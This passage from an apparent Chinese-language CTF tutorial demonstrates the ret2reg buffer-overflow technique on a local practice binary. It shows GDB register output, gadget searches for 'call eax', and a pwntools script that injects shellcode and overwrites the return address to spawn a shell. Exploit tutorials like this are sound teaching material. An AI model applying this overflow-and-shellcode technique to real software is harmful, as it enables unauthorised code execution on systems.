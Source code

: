 ```plain
[----------------------------------registers-----------------------------------]
EAX: 0xffffccb0 --> 0x333231 ('123')
EBX: 0x0 
ECX: 0xffffd19a --> 0x333231 ('123')
EDX: 0xffffccb0 --> 0x333231 ('123')
ESI: 0xf7fb7000 --> 0x1afdb0 
EDI: 0xf7fb7000 --> 0x1afdb0 
EBP: 0xffffced8 --> 0x0 
ESP: 0xffffcebc --> 0x8048450 (<main+36>:   add    esp,0x10)
EIP: 0x804842b (<evilfunction+32>:  ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```

可以发现 eax 的值仍然为缓冲区地址 (思路第一步完成)

查找 jmp eax 或 call eax 等指令

```plain
ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
或
objdump -d ret2reg | grep *%eax
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
0x0804841f : call dword ptr [eax - 0x18]
0x080484ff : call dword ptr [eax - 0x80000000]
0x08048373 : call eax
```

将 EIP(即返回地址) 设置成 call eax 的指令地址 (思路第二部完成)

编写脚本，向缓冲区写入 shell（思路第三步完成）

```plain
# -*- coding: utf-8 -*-
from pwn import *

#buf:0x208
#ebp:4
shell = asm(shellcraft.sh())
payload = shell+(0x20c-len(shell))*'A'
payload += p32(0x08048373)

p = process(argv=['./ret2reg',payload])
#gdb.attach(p)
p.interactive()
```

说明：0x20c 怎么来的，见链接视频过程，不详述：[https://www.bilibili.com/video/av290246951/](https://www.bilibili.com/video/av290246951/)

```plain
gdb-peda$ run `python -c "print 'a'*0x204"`
```
